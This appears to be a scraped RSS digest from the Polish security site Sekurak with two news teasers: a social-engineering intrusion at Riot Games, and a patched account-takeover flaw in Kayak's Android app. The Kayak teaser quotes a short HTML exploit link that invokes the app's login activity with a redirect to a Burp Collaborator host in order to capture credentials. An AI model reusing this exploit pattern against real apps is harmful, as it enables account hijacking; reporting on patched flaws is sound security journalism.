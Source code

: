 # Source Sekurak, Source URL:https://sekurak.pl/rss, Source language: pl-PL

## Socjohackerzy wbili się do infrastruktury Riot Games. „Mamy tymczasowe problemy z dostarczeniem nowego contentu”.
 - [https://sekurak.pl/socjohackerzy-wbili-sie-do-infrastruktury-riot-games-mamy-tymczasowe-problemy-z-dostarczeniem-nowego-contentu/](https://sekurak.pl/socjohackerzy-wbili-sie-do-infrastruktury-riot-games-mamy-tymczasowe-problemy-z-dostarczeniem-nowego-contentu/)
 - RSS feed: https://sekurak.pl/rss
 - date published: 2023-01-21 13:48:37+00:00
 - user: None

<p>Firma znana chyba przede wszystkim z hitu League of Legends poinformowała o incydencie na Twitterze: Poza tym, że użyto socjotechniki, niewiele więcej wiemy o incydencie. Warto jednak przypomnieć relatywnie niedawną akcję z kradzieżą kodów źródłowych Electronic Arts. W tym ostatnim przypadku historia była prosta (i również polegała na zaprzęgnięciu socjo):...</p>
<p>Artykuł <a href="https://sekurak.pl/socjohackerzy-wbili-sie-do-infrastruktury-riot-games-mamy-tymczasowe-problemy-z-dostarczeniem-nowego-contentu/" rel="nofollow">Socjohackerzy wbili się do infrastruktury Riot Games. &#8222;Mamy tymczasowe problemy z dostarczeniem nowego contentu&#8221;.</a> pochodzi z serwisu <a href="https://sekurak.pl" rel="nofollow">Sekurak</a>.</p>

## Klikasz na telefonie w linka i masz przejęte konto w appce mobilnej Kayaka
 - [https://sekurak.pl/klikasz-na-telefonie-w-linka-i-masz-przejete-konto-w-appce-mobilnej-kayaka/](https://sekurak.pl/klikasz-na-telefonie-w-linka-i-masz-przejete-konto-w-appce-mobilnej-kayaka/)
 - RSS feed: https://sekurak.pl/rss
 - date published: 2023-01-21 08:26:38+00:00
 - user: None

<p>Parę miesięcy temu pisaliśmy o ciekawej podatności w appce mobilnej Tiktoka, a teraz świeżo załatana podatność w appce serwisu Kayak. Idąc od końca &#8211; wystarczyło podrzucić ofierze linka do strony, na której hostowany był tego typu exploicik (specyficznie przygotowany link): &#60;!DOCTYPE html> &#60;html> &#60;body> &#60;a id=&#8221;exploit&#8221; href=&#8221;jakis_intent://externalAuthentication#Intent;scheme=kayak;package=com.kayak.android;component=com.kayak.android.web.ExternalAuthLoginActivity;action=android.intent.action.VIEW;S.ExternalAuthLoginActivity.EXTRA_REDIRECT_URL=https://jsfl9yn414bp1z2sujwfjsj3ruxlla.burpcollaborator.net;end&#8221;>Exploit&#60;/a>; &#60;/body> &#60;/html> Jeśli...</p>
<p>Artykuł <a href="https://sekurak.pl/klikasz-na-telefonie-w-linka-i-masz-przejete-konto-w-appce-mobilnej-kayaka/" rel="nofollow">Klikasz na telefonie w linka i masz przejęte konto w appce mobilnej Kayaka</a> pochodzi z serwisu <a href="https://sekurak.pl" rel="nofollow">Sekurak</a>.</p>
